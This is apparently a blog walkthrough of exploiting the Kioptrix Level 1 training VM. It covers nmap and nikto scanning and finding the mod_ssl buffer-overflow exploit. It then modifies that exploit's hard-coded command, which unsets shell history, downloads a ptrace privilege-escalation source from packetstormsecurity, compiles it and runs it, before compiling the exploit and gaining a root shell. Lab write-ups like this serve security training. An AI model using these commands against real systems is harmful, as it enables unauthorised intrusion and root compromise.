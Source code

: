 ```yaml
---
layout: post
title: You're up and running!
published: true
---
```

The Kioptrix series of vulnerable VMs closely resemble the material presented in the PWK course, and the OCSP exam. Kioptrix Level 1 starts out relatively easy, so let’s get started:

Once we have the VM loaded in bridged adapter mode (directly connected to physical network), let’s quickly scan our subnet for the machine:

```bash
nmap -sS -T5 192.168.1.0/24
```
 

Our output shows that our target is at `192.168.1.104`. Let’s perform a direct scan that fingerprints open ports/services:

```bash
nmap -sV -sT -A -T4 -sC 192.168.1.104
```
 

Which tells us that an Apache web server is running on the target:

```
443/tcp  open  ssl/https  Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|_http-title: 400 Bad Request
|_ssl-date: 2017-01-28T00:10:51+00:00; -37d09h58m43s from scanner time.
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
...snip..
```

Notably, this server is running a very outdated version of Apache and OpenSSL. We think the version of OpenSSL has a working exploit, however, let’s confirm our suspicion with a quick `nikto` scan:

```bash
nikto -h 192.168.1.104:80
```
 

Which returns an interesting line:
```
+ mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell. http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082, OSVDB-756.
```


`nikto` confirms our suspicion that `mod_ssl` has an RCE vulnerability in versions 2.8.7 and lower. Let’s find the exploit:

```bash
searchsploit mod_ssl 2.8.7
```
 

`searchsploit` is telling us that the exploit is at `/usr/share/exploitdb/platforms/unix/remote/21671.c`. However, this version was a bit outdated, so I downloaded my exploit straight from exploit-db:

```bash
wget https://www.exploit-db.com/download/764
```
 

Now, we have to make a few changes to the source code since this exploit is a bit outdated. First, there is a hard-coded line to `wget` some resources from packetstormsecurity, however, their download domain has changed since then. Find the following line:

```c
#define COMMAND2 "unset HISTFILE; cd /tmp; wget http://packetstormsecurity.nl/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
```


and replace it with:

```c
#define COMMAND2 "unset HISTFILE; cd /tmp; wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; \n"
```
 

Now we need to import the RC4/MD5 OpenSSL libraries for compatibility with this legacy SSL version. Add the following include statements:

```c
#include openssl/rc4.h
```
```c
#include openssl/md5.h
```
 

And compile the exploit per the instructions in the code comments:

```bash
gcc -o pwn 764.c -lcrypto
```
 

Run the exploit with the following arguments (Note, the 0x6b argument specifies the version of apache/server platform, detailed in exploit help):

```bash
./pwn 0x6b 192.168.1.104
```
 

And you get a root shell! Easy peasy.
